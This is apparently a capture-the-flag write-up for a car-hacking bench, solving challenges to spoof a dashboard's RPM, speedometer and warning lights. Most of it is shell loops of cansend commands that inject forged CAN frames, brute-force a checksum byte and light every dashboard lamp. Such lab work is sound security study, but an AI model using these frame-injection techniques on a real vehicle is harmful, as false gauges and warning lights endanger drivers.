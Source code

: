 # Physical_Bench_One

## Challenge 

Where are my airbags?

	30
	Medium
	Have you seen my airbags? Turn off the airbag light to show that you found it. Once you are done, show the results to a crew to get your points awarded.

RPM it for me?

	50
	Medium
	Make the RPM go to 4000. Once you are done, show the results to a crew to get your points awarded.

Show me the speed!

	80
	Medium
	Increment the speedometer and max out the speed. Once you are done, show the results to a crew to get your points awarded.

Hint: canplayer the file to get your ID

## Solution

Not the intended solution because there was supposed to be a log file, but someone else deleted it and left 3 test files.

	test.sh = Nothing happens
	test2.sh = Car handle lights (P, N, D)
	test3.sh = Change speedometer

### Speedometer

Observe test3.sh

Middle 2 bytes change for the speed. Last byte seems like it is some checksum and there is a sequence that must be sent.

I took a random exerpt, from test3.sh. The spedometer stuck just under 1000. From inspection, middle 2 bytes 0x0367 = 871, which corresponds to the speedometer.

	while true; do
	cansend slcan0 1DC#0203672A
	cansend slcan0 1DC#02036739
	cansend slcan0 1DC#02036B08
	cansend slcan0 1DC#02036B17
	cansend slcan0 1DC#02036F22
	cansend slcan0 1DC#02036F31
	cansend slcan0 1DC#02037002
	cansend slcan0 1DC#02036B17
	cansend slcan0 1DC#02036B26
	cansend slcan0 1DC#0203653B
	cansend slcan0 1DC#0203650E
	cansend slcan0 1DC#0203651D
	cansend slcan0 1DC#0203632E
	cansend slcan0 1DC#0203633D
	cansend slcan0 1DC#0203650E
	cansend slcan0 1DC#0203651D
	cansend slcan0 1DC#02036829
	cansend slcan0 1DC#02036838
	cansend slcan0 1DC#02036003
	done

The last byte is some checksum, try bruteforcing the final byte to see if it works.

	while true; do python3 -c 'for i in range(256): __import__("os").system( "cansend slcan0 1DC#020360" + ("%02x" % i) )'; done

It works, so I changed one byte to be 0x0f. 0x0f60=3936. And yes the RPM points to 4000 approx.


	while true; do python3 -c 'for i in range(256): __import__("os").system( "cansend slcan0 1DC#020f60" + ("%02x" % i) )'; done

"RPM it for me" flag.

![ss2.png](ss2.png)

## Testing

### Dashboard lights

Get unique commands

	$ cat test2.sh | sort | uniq > test2_uniq.sh

When playing it the lamps light up light crazy

This command will light up everything on the dashboard.

	while true; do python3 -c 'for i in range(256): __import__("os").system( "cansend slcan0 188#FFFFFFFFFF" + ("%02x" % i) )'; done

![ss1.png](ss1.png)

### Other commands

	$ cangen vcan0 -g 10 -I i -L 8 -D 0000000000000000 -v -v
	$ while true; do cansend slcan0 294#FFFFFFFFFFFFFF2D; done
	$ while true; do seq 0 4095 | while read n; do echo "$(printf '%03X' $n)#0000000000000000" ; done; done
